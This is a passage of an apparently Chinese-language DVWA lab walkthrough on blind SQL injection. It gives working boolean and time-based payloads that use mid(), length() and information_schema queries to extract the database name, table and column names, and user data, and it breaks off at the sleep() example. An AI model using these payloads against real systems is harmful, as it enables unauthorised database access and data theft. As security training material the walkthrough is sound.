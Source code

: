 ```/var/www/html/www1/vulnerabilities/sqli/source```在这个文件下有源码在+一条```echo $query```![1559638360170](assets/1559638360170.png)

（5）内联注入

直接用内联注入简单快捷。。

用```length(database())=xx```来判断数据库名长度如果成立就会返回正常

![1559643740924](assets/1559643740924.png)

说明数据库名为4位

![1559643802791](assets/1559643802791.png)

```1' and mid(database(),1,1)<'g'#```使用mid来判断数据库第一位的内容只需要修改第二个标志位来判断位数如果为正确就会返回存在ID

![1559643914467](assets/1559643914467.png)

```1' and mid(database(),2,1)='v'#```

![1559643934863](assets/1559643934863.png)

后面就省略了。之后会有脚本教学进行判断


``````
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1# 显示不存在
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2# 显示存在说明当前数据库存在两个表
``````

``````
1' and length(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9# 显示存在说明第一个表名字长度为9
``````

``````
1' and mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='g'# 显示存在说明第一个表的第一个字为g
``````

``````
1' and mid((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u'# 显示存在说明users表的第一个字段为u
``````

``````
1' and mid((select first_name from dvwa.users limit 0,1),1,1)='a'#  显示存在说明first_name的字段，第一个的数据为a
``````

时间盲注加个sleep就可以了

``````
1' and if(length(database())=1,sleep(5),1) # 没有延迟
